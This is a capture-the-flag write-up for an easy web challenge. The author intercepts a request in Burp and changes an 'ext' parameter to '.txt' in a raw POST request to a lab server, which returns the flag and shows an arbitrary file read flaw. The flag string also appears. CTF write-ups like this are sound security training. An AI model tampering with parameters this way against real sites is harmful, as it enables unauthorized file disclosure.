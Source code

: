 ### Zero Order
Level: Easy

Rus: У такой крупной компании заметно низкая активность заказов. Может они показывают на странице не всю информацию?

Eng: Such a large company has noticeably low order activity. Maybe they don't show all the information on the page?

### Solution

We see the table with orders, three tabs. After checking all the buttons wee see, that only "Refresh" button is working.
![](img/1.png)

Let's catch the request through Burp.

![](img/2.png)

We can see the parameter, which looks like a file extension, let try to send ".txt".


```
POST /index.php HTTP/1.1
Host: 62.173.140.174:16028
Content-Length: 8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://62.173.140.174:16028
Referer: http://62.173.140.174:16028/
Accept-Encoding: gzip, deflate, br
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

ext=.txt
```


get flag in the response: CODEBY{d0_y0u_w4nna_arb1tr4ry_f1l3_r34d?}
